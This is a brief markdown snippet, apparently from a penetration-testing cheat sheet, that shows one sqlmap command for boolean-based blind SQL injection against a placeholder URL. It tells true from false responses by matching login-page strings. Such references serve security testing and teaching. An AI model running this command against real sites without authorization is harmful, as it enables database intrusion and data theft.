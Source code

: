 # SQLMap

Boolean

```
$ sqlmap -u "http://example.com/vulnerable.php" --technique B --string="Welcome, admin!" --not-string="Invalid login"
```